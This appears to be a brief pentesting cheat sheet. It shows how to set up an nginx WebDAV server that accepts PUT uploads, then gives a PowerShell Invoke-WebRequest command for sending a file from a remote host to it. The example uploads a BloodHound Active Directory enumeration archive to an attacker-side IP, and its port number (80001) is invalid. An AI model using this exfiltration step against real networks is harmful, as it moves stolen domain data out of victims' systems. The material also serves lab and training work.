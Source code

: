 # How to create a webdav server with nginx



Go to /etc/nginx/sites-available and create a file called webdav with:

    server{
            listen 8001 default_server;
            server_name webdav.server;
            location / {
                root /var/www/upload;
                dav_methods PUT;
            }
    }


Then create the /var/www/upload directory

    sudo mkdir /var/www/upload
    sudo chmod 776 /var/www/upload

Create a symbolic link in sites-enabled

    cd /etc/nginx/sites-enabled
    sudo ln -s /etc/nginx/sites-available/webdav

Restart nginx

    sudo systemctl restart nginx

Finally check if server is up and listening on port 8001

    ss -nltp

## Upload a file from remote host to the webdav server using powershell

    Invoke-WebRequest -uri http://<webdav_server_ip>:<web_davserver_port>/<file_name_to_be_saved_in_the_server> -Method Put -Infile <path_to_file_we_want_to_upload>

    Invoke-Webrequest -uri http://10.10.14.105:80001/bh.zip -Method Put -Infile 20241112043034_BloodHound.zip